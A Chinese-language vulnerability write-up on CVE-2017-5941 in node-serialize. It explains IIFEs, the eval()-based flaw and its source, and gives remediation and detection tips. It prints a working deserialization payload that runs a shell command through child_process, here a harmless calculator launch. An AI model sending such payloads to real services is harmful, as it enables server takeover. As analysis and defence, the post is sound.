








Node.js node-serialize 反序列化漏洞（CVE-2017-5941）
node-serialize 是一个可以把 JavaScript 对象及其函数属性序列化为 JSON 字符串的 npm 包。该包 <= 0.0.4 版本存在反序列化任意代码执行漏洞：如果应用把攻击者可控的数据传入 unserialize()，攻击者可以通过立即调用函数表达式（Immediately Invoked Function Expression，IIFE）在 Node.js 进程中执行任意 JavaScript 代码。
该问题的本质不是 Node.js 自身漏洞，而是 node-serialize 在反序列化函数时直接使用了 eval()。GitHub Advisory 标记该漏洞影响版本为 <= 0.0.4，无官方修复版本；NVD 给出的 CVSS 3.1 评分为 9.8 CRITICAL，漏洞类型为 CWE-502（不可信数据反序列化）。
影响条件
满足以下条件时才会形成可利用风险：
- 项目依赖
node-serialize，且版本为0.0.4或更早版本。 - 服务端代码调用了
serialize.unserialize()。 unserialize()的入参可被外部用户控制，或可被外部用户篡改，例如 Cookie、请求体、缓存、消息队列、数据库字段等。- Node.js 进程具有执行敏感操作的权限，例如访问文件系统、环境变量、内网资源或可通过
child_process启动系统命令。
如果数据只在完全可信的服务端内部流转，风险会降低；但只要序列化字符串会经过客户端、日志回放、数据库写入、消息投递等可篡改环节，就不能视为可信。
JavaScript 的 IIFE
IIFE 是“定义后立即调用”的函数表达式。需要注意的是，IIFE 并不是“对象创建时一定会被调用”，而是在 JavaScript 引擎求值到该表达式时立即执行；如果它被写作对象属性的值，那么对象字面量求值时会执行它。
常见写法如下：
1 | (function() { |
例如：
1 | (function() { |
JavaScript 在语句开头遇到 function 时，会按函数声明解析。函数声明必须有名称，因此下面的代码会报语法错误：
1 | function () { |
即使补上函数名，函数声明也不能直接用后面的 () 立即调用：
1 | function go() { |
因此通常用括号或一元运算符把它转为函数表达式：
1 | (function go() { |
在 macOS 测试环境中，下面的 IIFE 会在表达式被求值时打开计算器：
1 | (function() { |
环境准备
测试依赖：
1 | npm install node-serialize@0.0.4 |
本文示例使用 macOS 的 open -a Calculator 作为演示命令。Linux 环境可替换为 id、touch /tmp/node_serialize_poc 等命令；Windows 环境可替换为 calc.exe。
正常序列化示例
node-serialize 支持把函数属性转成带 _$$ND_FUNC$$_ 前缀的字符串：
1 | const serialize = require("node-serialize"); |
输出结果类似：
1 | {"name":"demo","run":"_$$ND_FUNC$$_function() {\n return \"hello \" + this.name;\n }"} |

这里原文示例中的 let y = { function() { ... } } 不是合法对象属性写法，应写成 run: function() { ... } 或 "function": function() { ... }。
IIFE 与序列化阶段的区别
如果把对象属性写成 IIFE，它会在对象创建阶段直接执行：
1 | const serialize = require("node-serialize"); |

这段代码会在本地脚本执行到对象字面量时打开计算器，但它不是漏洞利用的关键点。由于 run 属性保存的是函数调用后的返回值（上例没有 return，因此是 undefined），node-serialize 不会把它当作函数继续序列化。
漏洞利用时，攻击者通常不是依赖本地对象创建阶段触发，而是构造一段带 _$$ND_FUNC$$_ 前缀、并在函数体后附加 () 的反序列化字符串，让 unserialize() 内部的 eval() 在服务端执行 IIFE。
反序列化触发 RCE
正常序列化函数的结果类似：
1 | {"run":"_$$ND_FUNC$$_function() {\n return \"hello\";\n}"} |
攻击者将函数内容改为 IIFE，只需要在函数体后面增加 ()：
1 | {"rce":"_$$ND_FUNC$$_function() {\n require('child_process').exec('open -a Calculator', function(error, stdout, stderr) {\n console.log(stdout);\n });\n}()"} |
完整触发代码：
1 | const serialize = require("node-serialize"); |

如果该 payload 来自 HTTP 请求、Cookie 或其他用户可控字段，代码会在服务端 Node.js 进程权限下执行。
漏洞源码分析
node-serialize@0.0.4 的关键逻辑在 lib/serialize.js。下面保留与漏洞相关的分支，省略了循环引用处理：
1 | var FUNCFLAG = '_$$ND_FUNC$$_'; |
调试时，obj 是待反序列化的对象：

当属性值以 _$$ND_FUNC$$_ 开头时，程序认为该值是函数：

随后代码会截掉 _$$ND_FUNC$$_ 前缀，并执行：
1 | eval('(' + functionString + ')') |
如果 functionString 是普通函数：
1 | function() { |
eval() 只是返回一个函数对象。但如果 functionString 是下面这种 IIFE：
1 | function() { |
实际执行内容会变成：
1 | (function() { |
函数会在 eval() 过程中立即执行：



该实现只通过字符串前缀判断“是否为函数”，没有鉴权、签名校验、白名单或沙箱隔离；同时 eval() 运行在当前 Node.js 模块上下文中，攻击代码可以调用 require() 加载 child_process 等核心模块，因此可升级为任意命令执行。
修复和加固建议
- 不要在任何外部可控数据上使用
node-serialize.unserialize()。 - 移除
node-serialize依赖；对于普通数据，改用JSON.stringify()和JSON.parse()，不要反序列化函数。 - 如果业务必须保留复杂对象序列化，选择仍在维护且不会执行函数字符串的方案，并显式禁用函数、原型、构造器等危险恢复逻辑。
- 如果历史兼容暂时无法替换，必须保证序列化数据只在可信服务端内部流转，并在反序列化前做完整性校验，例如签名验签；不要只依赖 HTTPS 或正则过滤。
- 降低 Node.js 进程权限，避免进程拥有不必要的文件、命令执行、云凭证、内网访问权限。
- 在日志、WAF、代码扫描或依赖扫描中关注
_$$ND_FUNC$$_、node-serialize、unserialize(等特征。
排查方法
检查依赖：
1 | npm ls node-serialize |
检查锁文件：
1 | rg "\"node-serialize\"" package-lock.json yarn.lock pnpm-lock.yaml |
检查代码调用点：
1 | rg "node-serialize|\\.unserialize\\(" . |
重点确认 unserialize() 的参数来源。如果参数来自请求体、Cookie、Header、查询参数、数据库中可由用户写入的字段、缓存或消息队列，应按高危问题处理。